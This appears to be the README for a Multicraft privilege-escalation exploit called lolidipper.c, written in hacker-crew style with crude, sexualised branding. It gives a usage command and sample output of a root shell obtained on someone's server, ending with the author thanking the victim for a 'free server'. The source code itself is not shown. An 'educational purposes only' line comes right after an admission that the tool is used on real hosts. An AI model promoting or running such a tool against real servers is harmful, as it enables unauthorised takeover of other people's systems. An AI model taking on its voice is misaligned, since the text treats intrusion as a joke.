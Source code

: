 lolidipper.c
=======================

Multicraft privilege escelation exploit

This will exploit a flaw in multicraft and give full root permissions on a server running multicraft.
I can't stop you from using it on hosts, but please don't. This is for educational purposes only

ABWGRTA(Anime Bitches Waifu Gang R00t Them All),
An1m3b1tch3z out

Sample Output
==============
    ./lolidipper 1000 25465
    takes about 13 minutes to run because running bits and bytes are slow and needs a secondfor each offset and 0xff*3 is 765.
        * some things you could do while waiting:
        * watch https://www.youtube.com/watch?v=t2we10nvE7A
        * watch https://www.youtube.com/watch?v=UX44ugzaqw4 $VAI $VAI $VAI $VAI
        * mastrubate to anime
    w00t w00t g0t r00t sh3ll!!!!
    # id
    uid=0(root) gid=25465(395231) groups=25465(395231)
    #free -g
                 total       used       free     shared    buffers     cached
    Mem:           104         74          30          0          0          1
    -/+ buffers/cache:          0          1
    Swap:          512        171        341
    #
    #
    # Thanks for free server.
    Thanks: command not found
